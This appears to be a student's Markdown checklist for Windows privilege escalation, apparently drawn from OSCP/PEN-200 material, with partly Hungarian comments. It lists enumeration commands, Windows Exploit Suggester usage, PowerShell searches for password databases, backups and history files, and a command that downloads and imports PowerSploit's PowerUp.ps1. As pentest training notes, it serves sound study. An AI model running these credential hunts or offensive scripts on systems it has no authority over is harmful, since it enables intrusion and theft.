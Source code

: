 # Windows Privilege Escalation Checklist
## Situational Awareness
* Hostname, username, current user - privileges and group memberships, current dir, common dirs, etc...
  * hostname
  * whoami
  * whoami /priv
  * whoami /groups
  * cd, dir, dir C:\, dir C:\Users, tree /F
* Existing users and groups
  * net user
  * net user User1
  * net localgroup
  * net localgroup Administrators
  * query user
* Operating system, version and architecture
  * systeminfo
  * ver
* Network information
  * ipconfig /all
  * netstat -ano
  * route print
  * arp -a
* Shared resources (not only folders, but printers and other hosts too through SMB)
  * net share
  * net view
* Running processes
  * tasklist
  * tasklist /svc
* Installed applications
  * WMIC
    * C:\> wmic [ENTER] product get name, version [ENTER]
    * varni kell egy kicsit, nem ad egybol eredmenyt
    * lehet erdemes redirectelni az eredmenyt egy file-ba (product get name, version > output.txt)
  * Powershell
  <pre>
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  </pre>
  * Listing C - Program Files folders
    * C:\> dir "C:\Program Files"
    * C:\> dir "C:\Program Files (x86)"
## Windows Exploit Suggester (new)
* deprecated repo
  * https://github.com/AonCyberLabs/Windows-Exploit-Suggester
* new repo (new fork of the original)
  * https://github.com/7Ragnarok7/Windows-Exploit-Suggester-2
  * elvileg sima python1-el kene futtatni
  * errors:
    * E: Package 'python-xlrd' has no installation candidate
  * de ez se jo, mert elvileg python2-vel kene hasznalni, de ahhoz is kell xlrd, illetve pip2 is kene, de egyiket se hagyja felrakni
  * PIMPMYKALI.SH MEGOLDOTTA!!!!!!!! UTANA MUKODIK!!!!
## Windows Exploit Suggester (old)
### info
* Source: (sajnos nincs meg hogy honnan szedtuk, de python file, az tuti)
* ennyi info van rola, a file header reszeben
<pre>
# Windows Exploit Suggester
# revision 3.3, 2017-02-13
#
# author: Sam Bertram, Gotham Digital Science
# contact: labs@gdssecurity.com,sbertram@gdssecurity.com,sammbertram@gmail.com
# blog post: "Introducing Windows Exploit Suggester", http://blog.gdssecurity.com/
# Blog Post: "Introducing Windows Exploit Suggester", https://blog.gdssecurity.com/labs/2014/7/11/introducing-windows-exploit-suggester.html
</pre>
### method
* ha python hiba van, akkor
  * python3-al probaljuk meg futtatni
    * sudo apt install python3-xlrd
    * kell bele plusz 1 sor
      * from io import StringIO
  * pip install xlrd --upgrade
<pre>
<b># victim machine</b>
C:\> systeminfo
(copy output to a txt file on attack machine)

<b># attack machine</b>
$ ./windows-exploit-suggester.py --update

$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
(vagy)
$ python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt
</pre>
## File permissions
* cmd
<pre>
C:\> icacls "C:\Users\user1\desktop\test.exe"
C:\Users\user1\desktop\test.exe
BUILTIN\Administrators:(F)
NT AUTHORITY\SYSTEM:(F)
BUILTIN\Users:(RX)
NT AUTHORITY\Authenticated Users:(RX)
Successfully processed 1 files; Failed processing 0 files
</pre>
* powershell
<pre>
PS> Get-Acl "C:\Users\user1\desktop\test.exe"
...
</pre>
## Searching Files and Folders
* Searching files by extension
<pre>
PS> Get-ChildItem -Path C:\ -Include *.txt,*.ini,*.conf,*.xml,*.json,*.yml,*.yaml,*.kdbx,*.bak,*.bck,*.old -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.bat,*.vbs,*.js,*.asp,*.aspx,*.js,*.ps1,*.psm1,*.php,*.jar,*.jsp -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.xlsm,*.doc,*.docx,*.docm,*.ppt,*.pptx -File -Recurse -ErrorAction SilentlyContinue
PS> Get-ChildItem -Path C:\ -Include *.rar,*.zip,*.iso,*.tar,*.7z -File -Recurse -ErrorAction SilentlyContinue
</pre>
* Searching 'modifiable service files' (with Powersploit's PowerUp.ps1)
<pre>
PS> Invoke-WebRequest -Uri "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" -OutFile .\PowerUp.ps1
PS> Import-Module .\PowerUp.ps1
PS> Get-ModifiableServiceFile
</pre>
## Powershell history
<pre>
PS> Get-History

PS> (Get-PSReadlineOption).HistorySavePath
C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

PS> type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</pre>
## Service Binary Hijacking
* PEN200.pdf 500. oldal...
## Service DLL Hijacking
* PEN200.pdf 507. oldal...
## Unquoted Service Paths
* PEN200.pdf 514. oldal...
## Scheduled Tasks
* PEN200.pdf 520. oldal...
## Common vulnerabilites and exploits
* Juicy Potato
* Printspoofer
* 
## Usefull sources
* Relevant HTB Academy modules
  * Active Directory Enumeration & Attacks
  * Windows Fundamentals
  * Introduction To Windows Command Line
  * Windows Privilege Escalation
* Other sources
  * PEN200.pdf (OSCP guide)
